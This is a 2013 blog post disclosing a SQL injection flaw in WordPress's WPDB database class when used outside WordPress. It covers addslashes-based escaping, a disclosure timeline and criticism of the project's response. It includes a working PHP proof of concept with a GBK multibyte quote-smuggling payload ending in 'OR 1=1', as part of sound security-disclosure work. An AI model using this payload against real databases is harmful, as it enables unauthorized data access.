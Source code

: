 ```yaml
---
layout: post
title: Disclosure: WordPress WPDB SQL Injection Vulnerability
permalink: disclosure-wordpress-wpdb-sql-injection
date: 2013-07-16
comments: true
categories:
tags:
- Disclosure
- Open Source
- PHP
- Security
- SQL Injection
---
```


At the current point in time there exists a very significant SQL Injection vulnerability in the WordPress code base. I want to make it abundantly clear that this does not affect anyone using WordPress "off the shelf". It only is exploitable if you use certain WordPress code outside of a WordPress install. So this is not a very "attackable" vulnerability. Or to put it in other terms, this is a high level vulnerability which has a very low threat level. It is also worth noting that it has not been fixed by WordPress (even 90 days after disclosure).<!--more-->
## Vulnerability Scope


I really want to stress here that the problem here is not that WordPress is insecure. Installed instances are immune to this particular vulnerability due to specifics of the implementation. 

The reason that I am treating this like an actual vulnerability is that I firmly believe that open source projects need to lead by example. That's the big issue that needs to be fixed here... And the vulnerability here is something that is extremely well known and the rest of the industry has moved past...## The Vulnerability

<span style="text-align: justify;">So let me show the proof-of-concept code here:</span>

```php
// Fill in credentials here:
$host = '';
$user = '';
$pass = '';
$dbname = '';
 
/** Hack Below */
 
function apply_filters($name, $arg) { return $arg; }
 
define('WP_DEBUG', false); // Not necessary
define('DB_CHARSET', ''); // Necessary
 
require_once dirname(__FILE__) . '/wp-includes/wp-db.php';
 
$db = new WPDB($user, $pass, $dbname, $host);
 
$payload = '%' . chr(0xbf) . chr(0x27) . " OR 1=1 /*";
 
$stmt = $db->prepare(
    'SELECT * 
        FROM INFORMATION_SCHEMA.CHARACTER_SETS 
        WHERE CHARACTER_SET_NAME = %s 
        LIMIT 1', 
    $payload
);

var_dump($db->query($stmt));

```


When this code is installed with a specifically configured MySQL server (expecting GBK character set by default), that SQL Injection will work.

So basically any time the character set is not explicitly set by the user and the external site is using a specific class of character sets (GBK and Big5, among others), this is vulnerable.


But let me make it clear again, this is an extremely narrow case that likely directly affects literally 0 applications on the internet. The point of this disclosure is not that people are affected. It's that this should never even be possible in 2013...## The Vulnerable Code



To see why this works, let's take a look at the [WPDB class](https://github.com/WordPress/WordPress/blob/2ac8311b74063e43ca5a1c886ad706e98b6a0910/wp-includes/wp-db.php). 
```php
function escape( $data ) {
    if ( is_array( $data ) ) {
        foreach ( (array) $data as $k => $v ) {
            if ( is_array( $v ) )
                $data[$k] = $this->escape( $v );
            else
                $data[$k] = $this->_weak_escape( $v );
        }
    } else {
        $data = $this->_weak_escape( $data );
    }

    return $data;
}

```


So looking at that, escape just proxies to `_weak_escape()`... And what's `_weak_escape()` you ask?
```php
function _weak_escape( $string ) {
    return addslashes( $string );
}

```


Yeah. So... If you're not aware of the issue here, I HIGHLY recommend reading [this post on addslashes](http://shiflett.org/blog/2006/jan/addslashes-versus-mysql-real-escape-string) by Chris Shiftlett from 2006...

But it gets better! There's a prepare method that simulates prepared statements! Let's look at how that works...
```php
function prepare( $query, $args ) {
    if ( is_null( $query ) )
        return;

    $args = func_get_args();
    /*snip*/
    array_walk( $args, array( $this, 'escape_by_ref' ) );
    return @vsprintf( $query, $args );
}

```


So it calls `escape_by_ref`... Surely that does something sane...?```php
function escape_by_ref( &$string ) {
    if ( ! is_float( $string ) )
        $string = $this->_real_escape( $string );
}
```


Ok, so now there's a `_real_escape` function? I wonder what that does?```php
function _real_escape( $string ) {
    if ( $this->dbh && $this->real_escape )
        return mysql_real_escape_string( $string, $this->dbh );
    else
        return addslashes( $string );
}
```


Oh cool! There's `mysql_real_escape_string()`! But wait, there's a conditional... It's checking for a connection (and if there isn't one yet, it's insecurely escaping). Then it's checking if the `real_escape` property is true. I wonder how that's set:

In the `set_charset() `function, it checks a few parts. First, it checks to see if the database supports collations. Then it checks to see if it supports charsets. Then it checks to see if we're explicitly setting a charset. Only then will it switch from `addslashes() `to `mysql_real_escape_string()`:
```php
if ( $this->has_cap( 'collation' ) && ! empty( $charset ) ) {
    if ( function_exists( 'mysql_set_charset' ) && $this->has_cap( 'set_charset' ) ) {
        mysql_set_charset( $charset, $dbh );
        $this->real_escape = true;
    } else {
        $query = $this->prepare( 'SET NAMES %s', $charset );
        if ( ! empty( $collate ) )
            $query .= $this->prepare( ' COLLATE %s', $collate );
        mysql_query( $query, $dbh );
    }
}

```


So if you're using an older version of MySQL (below 5.0.7), you'll never use real_escape_string (ever). If, like in our proof-of-concept script above, you're not explicitly setting the charset, it will never use `mysql_real_escape_string()`.

In short, this is REALLY overly complicated and makes security the edge-case rather than the other way around.## Disclosure Timeline

 * April 17 - Initial report sent to lead developer (at his request)
 * April 17 (10 minutes later) - Response acknowliding issue and discussing potential solution
 * June 23 - I emailed stating intention to disclose on July 1, as it has not been fixed nor has progress been made
 * June 23 (10 minutes later) - Response indicating a plan of action. Promise to send code within 24 hours.
 * June 23 - I agree to delay disclosure to July 16, to give more time.
 * July 14 - I received an email requesting an additional 2 weeks, stating that I would get code "within 24 hours" again.
 * July 14 - I declied the request of an additional 2 weeks, as no progress has been shown other than under threat of disclosure.
 * July 16 - Disclosure (still no code received)


So basically, nothing has happened of significance. Which is why I chose to disclose after 90 days. I initially intended to disclose at 60 days, but decided to delay to 75 as it's not a high threat level. Then, when asked (there was progress to be made), I agreed to delay further to 90 days. But I cannot reasonably agree to go further. There has been 90 days since the original report. The fix is actually pretty straight forward. Simply replace all instances of `addslashes() `with `mysql_real_escape_string()`, and raise an error (or start a database connection) if the connection is not active. It's a 5 line patch (well, 5 lines of logic change, the "cleanup" it will allow is much greater)...


Note: I realize that it might not wind up being a 5 line patch, that there may be some circumstances that warrant more changes. So far I have seen nothing to indicate that this is the case (no evidence of actual issues that need to be solved with the original concept).
## Security Is A Responsibility


I've been quoted before as saying that open source projects have a responsibility to their users and to the greater community to lead by example. This case is one where the WordPress project really needs to learn this lesson.

First, the fact that `addslashes() `exists in a database layer in any form in 2013 is down right disturbing. Disturbing doesn't even describe it. It's simply gross negligence. And what's worse is that it's not that the developers didn't understand the problem. And it's not that they didn't think it was a problem. They agreed it was a problem (albeit a narrow one). And that makes it infinitely worse in my opinion. Because that means it's intentional. And that's inexcusable.

To be clear, I'm not trying to attack the individual developers on the project. The individual developers are indeed smart and rational people. The problem as I see it is the policies and practices that the project as a whole have put in place.


But further is the communication that has happened since reporting. After the initial report, the next response I got was over 2 months later when I threatened to disclose. And I was promised code within 24 hours, which I never got. The next time I heard anything was 2 days before the agreed-upon delayed disclosure date. This is not how to handle one of the largest projects in the world. Even if it is a narrow issue.

Really, I'm quite disapointed here.
